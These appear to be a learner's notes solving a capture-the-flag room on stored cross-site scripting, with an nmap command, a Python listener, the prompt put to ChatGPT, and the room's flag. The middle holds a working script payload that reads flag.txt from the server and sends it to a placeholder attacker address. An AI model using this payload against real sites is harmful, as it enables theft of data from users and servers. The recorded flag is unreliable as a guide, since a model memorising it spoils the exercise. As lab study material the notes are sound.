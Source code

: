 Sticker Shop Room ( STORED CROSS SITE SCRIPTING (XXS)

10 December 2024
11:58

INSPECT THE SITE FOR abnormal things
OPTIONS TO USE: reverse shell or cross-site scripting.

READ THE FLAG  - flag.txt


### http://10.10.239.26:8080/flag.txt ###

	1. Use nmap scan of nmap -A -F -oN nmapstickershop.txt target ip
	
	2.
Use python3 -m http.server in terminal to listen and wait for response

	3. Get chatgpt to help to create a script for cross site script. 



" Create a script to get a flag.txt file from a local host on a server 127.0.0.1:8080/flag.txt that send the flag to my machine which is on port 8000 for ethical hacking purpose."

### The script for XSS ###

<script>
 // Define the target URL where the sensitive data (e.g., flag.txt) resides const targetUrl = "http://127.0.0.1:8080/flag.txt"; 

// Define your server's endpoint to receive the exfiltrated data const exfilServer = "http://YOUR_IP_ADDRESS:8000";

 // Function to fetch the flag and send it as a GET request fetch(targetUrl) .then(response => response.text()) .then(flag => { // Encode the flag as a query parameter in the GET request const exfilUrl = `${exfilServer}/?data=${encodeURIComponent(flag)}`; 

// Send the GET request to your server fetch(exfilUrl, { method: "GET", mode: "no-cors" }); }) .catch(err => console.error("Error fetching flag:", err));
 </script>






Script mentions it is encodedURIComponent

Go to cyberchef. https://gchq.github.io/CyberChef/

And encode it! USE URL DECODE!




THM{83789a69074f636f64a38879cfcabe8b62305ee6}
